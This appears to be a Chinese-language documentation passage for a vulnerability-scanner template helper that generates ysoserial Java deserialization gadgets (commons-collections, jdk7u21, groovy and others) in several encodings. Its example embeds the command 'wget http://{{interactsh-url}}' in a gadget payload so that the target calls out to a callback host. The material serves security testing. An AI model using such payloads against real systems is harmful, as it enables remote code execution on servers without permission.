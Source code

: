 <a name="aAsgs"></a>
### 5.4.2 反序列化函数
允许从ysoserial为一些常见的小工具生成有效载荷<br />**支持的 Payload:**

- dns (URLDNS)
- commons-collections3.1
- commons-collections4.0
- jdk7u21
- jdk8u20
- groovy1

**支持的编码（ encodings）:**

- base64 (default)
- gzip-base64
- gzip
- hex
- raw

**反序列化 helper function format:**<br />{{generate_java_gadget(payload, cmd, encoding}} <br />**反序列化  helper function example:**<br />{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}

